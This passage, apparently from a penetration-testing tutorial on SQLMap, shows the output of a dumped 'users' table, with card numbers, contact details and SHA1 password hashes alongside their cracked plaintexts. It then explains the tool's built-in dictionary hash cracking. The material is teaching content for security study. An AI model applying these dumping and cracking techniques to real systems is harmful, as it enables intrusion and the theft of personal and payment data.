 ```shell-session
...SNIP...
[14:31:47] [INFO] cracked password 'Zc1uowqg6' for hash '0ff476c2676a2e5f172fe568110552f2e910c917'                                                                                                        
Database: master                                                                                                                                                                                          
Table: users
[32 entries]
+----+------------------+-------------------+-----------------------------+--------------+------------------------+-------------------+-------------------------------------------------------------+---------------------------------------------------+
| id | cc               | name              | email                       | phone        | address                | birthday          | password                                                    | occupation                                        |
+----+------------------+-------------------+-----------------------------+--------------+------------------------+-------------------+-------------------------------------------------------------+---------------------------------------------------+
| 1  | 5387278172507117 | Maynard Rice      | MaynardMRice@yahoo.com      | 281-559-0172 | 1698 Bird Spring Lane  | March 1 1958      | 9a0f092c8d52eaf3ea423cef8485702ba2b3deb9 (3052)             | Linemen                                           |
| 2  | 4539475107874477 | Julio Thomas      | JulioWThomas@gmail.com      | 973-426-5961 | 1207 Granville Lane    | February 14 1972  | 10945aa229a6d569f226976b22ea0e900a1fc219 (taqris)           | Agricultural product sorter                       |
| 3  | 4716522746974567 | Kenneth Maloney   | KennethTMaloney@gmail.com   | 954-617-0424 | 2811 Kenwood Place     | May 14 1989       | a5e68cd37ce8ec021d5ccb9392f4980b3c8b3295 (hibiskus)         | General and operations manager                    |
| 4  | 4929811432072262 | Gregory Stumbaugh | GregoryBStumbaugh@yahoo.com | 410-680-5653 | 1641 Marshall Street   | May 7 1936        | b7fbde78b81f7ad0b8ce0cc16b47072a6ea5f08e (spiderpig8574376) | Foreign language interpreter                      |
| 5  | 4539646911423277 | Bobby Granger     | BobbyJGranger@gmail.com     | 212-696-1812 | 4510 Shinn Street      | December 22 1939  | aed6d83bab8d9234a97f18432cd9a85341527297 (1955chev)         | Medical records and health information technician |
| 6  | 5143241665092174 | Kimberly Wright   | KimberlyMWright@gmail.com   | 440-232-3739 | 3136 Ralph Drive       | June 18 1972      | d642ff0feca378666a8727947482f1a4702deba0 (Enizoom1609)      | Electrologist                                     |
| 7  | 5503989023993848 | Dean Harper       | DeanLHarper@yahoo.com       | 440-847-8376 | 3766 Flynn Street      | February 3 1974   | 2b89b43b038182f67a8b960611d73e839002fbd9 (raided)           | Store detective                                   |
| 8  | 4556586478396094 | Gabriela Waite    | GabrielaRWaite@msn.com      | 732-638-1529 | 2459 Webster Street    | December 24 1965  | f5eb0fbdd88524f45c7c67d240a191163a27184b (ssival47)         | Telephone station installer                       |
```

We can see in the previous example that SQLMap has automatic password hashes cracking capabilities. Upon retrieving any value that resembles a known hash format, SQLMap prompts us to perform a dictionary-based attack on the found hashes.

Hash cracking attacks are performed in a multi-processing manner, based on the number of cores available on the user's computer. Currently, there is an implemented support for cracking 31 different types of hash algorithms, with an included dictionary containing 1.4 million entries (compiled over the years with most common entries appearing in publicly available password leaks). Thus, if a password hash is not randomly chosen, there is a good probability that SQLMap will automatically crack it.
